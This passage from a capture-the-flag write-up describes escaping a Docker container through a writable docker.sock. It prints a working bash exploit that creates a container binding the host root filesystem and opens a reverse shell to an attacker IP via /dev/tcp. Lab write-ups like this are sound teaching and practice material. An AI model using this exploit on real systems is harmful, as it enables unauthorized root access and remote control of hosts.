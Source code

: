 ### Docker Escape

We are now in this container as another user, and the next step is to escape in order to become root or have root access to the machine. I'm not that great with Docker escape, so Hacktricks was a life saver here.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation" %}

Early enumeration shows that there is a docker.sock in the /app/docker.sock directory. However, we can't run the docker command in this container, so there has to be another way.&#x20;

In this machine, there's one critical vulnerability, of which is that the docker.sock is writable.

<figure><img src="../../.gitbook/assets/image (107) (1).png" alt=""><figcaption></figcaption></figure>

So we can enumerate further to find some docker exploits using curl.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/authz-and-authn-docker-access-authorization-plugin" %}

After reading quite a bit on docker sockets, how they're not supposed to be writeable and so on, I found a working exploit here.

{% embed url="https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25" %}

We can edit this script a bit to fit our machine and then run it. Firstly, we need to change the image name based on this machine's config.

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

We can then proceed to use the exploit. Finalized code:

```bash
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.5/4444 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /app/docker.sock -d "{\"Image\":\"laravel-app_main\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=test_root
 
# start the container
curl -s -X POST --unix-socket /app/docker.sock "http://localhost/containers/test_root/start"

```
